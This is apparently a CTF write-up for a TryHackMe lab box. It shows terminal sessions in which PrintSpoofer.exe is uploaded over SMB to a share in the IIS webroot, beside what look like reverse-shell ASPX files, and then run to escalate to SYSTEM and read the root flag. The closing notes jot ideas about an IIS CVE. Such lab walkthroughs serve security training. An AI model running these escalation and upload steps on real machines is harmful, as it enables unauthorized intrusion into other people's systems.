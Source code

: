         (kali㉿kali)-[~/THM/practice/relevant/printspoofer]
        └─$ smbclient -U bob //10.10.181.98/nt4wrksv
        Enter WORKGROUP\bob's password: 
        Try "help" to get a list of possible commands.
        smb: \> put PrintSpoofer.exe
        putting file PrintSpoofer.exe as \PrintSpoofer.exe (159.6 kb/s) (average 159.6 kb/s)
        # 2 - run with basic flags
        c:\inetpub\wwwroot\nt4wrksv>dir
        dir
         Volume in drive C has no label.
         Volume Serial Number is AC3C-5CB5

         Directory of c:\inetpub\wwwroot\nt4wrksv

        02/20/2022  10:26 AM    <DIR>          .
        02/20/2022  10:26 AM    <DIR>          ..
        07/25/2020  07:15 AM                98 passwords.txt
        02/20/2022  10:26 AM            27,136 PrintSpoofer.exe
        02/20/2022  10:05 AM                 0 reverse.aspx
        02/20/2022  10:06 AM             3,414 reverse1.aspx
                       4 File(s)         30,648 bytes
                       2 Dir(s)  21,047,189,504 bytes free

        c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
        PrintSpoofer.exe -i -c cmd
        [+] Found privilege: SeImpersonatePrivilege
        [+] Named pipe listening...
        [+] CreateProcessAsUser() OK
        Microsoft Windows [Version 10.0.14393]
        (c) 2016 Microsoft Corporation. All rights reserved.

        C:\Windows\system32>whoami
        whoami
        nt authority\system

# and we got autority privileges --> in fact we got all privileges enabled!

C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}










### further reading / thoughts ###
# doing a quick search on google 'wwwroot windows 2016 server iis exploit' I found the following
        # https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0645
        # I might be able to manipulate the http headers to get us the access we need/want
        # "microsoft IIS server tampering vulnerability"
